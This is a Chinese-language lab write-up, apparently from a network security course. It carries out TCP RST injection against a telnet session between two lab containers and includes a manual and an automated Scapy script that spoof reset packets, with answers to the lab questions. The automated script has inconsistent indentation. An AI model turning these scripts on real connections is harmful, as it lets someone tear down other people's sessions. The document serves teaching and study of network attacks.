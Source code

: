 ## scapy

scapy脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING RESET PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40498, dport=23, flags="R", seq=3083117262)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```

首先用telnet建立172.17.0.2 和 172.17.0.3 之间的TCP通信，用Wireshark抓包观察到连接成功建
立，同时获取数据包的端口号和序列号信息，如下图：  

![image-20220410203741402](readme.assets/image-20220410203741402.png)

运行脚本 观察抓到了RST包 并且连接断开

![image-20220410204201754](readme.assets/image-20220410204201754.png)

![image-20220410204208529](readme.assets/image-20220410204208529.png)

你的攻击是否成功？成功了。
你怎么知道它是否成功？telnet的连接终止，同时Wireshark抓包看到了RST包。
你期待看到什么？期待看到telnet连接终止和RST包的发送。
你观察到了什么？观察到了telnet的连接终止，同时Wireshark抓包看到了RST包。
观察结果是你预想的那样吗？二者一致  

## scapy自动

脚本：

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23

def spoof(pkt):
    old_tcp = pkt[TCP]
    old_ip = pkt[IP]
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack,flags = "R") 
    pkt = ip/tcp
	send(pkt, verbose=0)
	print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof, iface="docker0")
```
